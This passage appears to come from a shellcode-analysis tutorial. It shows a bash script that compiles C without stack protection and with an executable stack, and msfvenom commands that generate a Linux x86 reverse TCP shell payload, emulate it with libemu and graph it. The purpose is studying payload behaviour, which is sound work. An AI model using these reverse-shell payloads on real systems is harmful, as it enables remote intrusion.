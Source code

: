 To compile the shellcode it is necessary to use the following bash script.

````
#!/bin/bash

echo '[+] Compiling without stack protector and execstack ... '
gcc -fno-stack-protector -z execstack $1.c -o $1
echo '[+] Done!'
````
``compile_shellcode.sh``

Furthermore, it is possible to get an schema of payload's functionality by issuing:

````
msfvenom -p linux/x86/shell/reverse_nonx_tcp LHOST=10.0.2.15 LPORT=9999 -b '\x00' --platform Linux -a x86 -f raw -o reverse_nonx_tcp.bin
sudo /opt/libemu/bin/sctest -Ss 10000 -vvv -G reverse_nonx_tcp.dot < reverse_nonx_tcp.bin
dot reverse_nonx_tcp.dot  -T png > reverse_nonx_tcp.png
````
``Commands to generate a graphical schema of the payload``

This will create a graphical schema of the payload.
